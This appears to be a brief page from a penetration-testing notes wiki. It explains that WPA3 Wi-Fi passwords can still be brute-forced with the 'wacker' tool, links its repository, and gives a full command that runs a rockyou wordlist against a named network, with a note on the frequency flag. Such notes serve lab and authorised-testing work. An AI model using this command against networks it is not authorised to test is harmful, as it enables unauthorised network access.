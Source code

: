 # WPA3

In WPA3 networks it is still possible to brute force until the password is found, to do this we can use “wacker”.

[https://github.com/blunderbuss-wctf/wacker](https://github.com/blunderbuss-wctf/wacker)

```bash
./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```

`--freq`: Channel frequency in MHz (e.g. `2462` = channel 11

![image.png](<../../.gitbook/assets/image (32).png>)
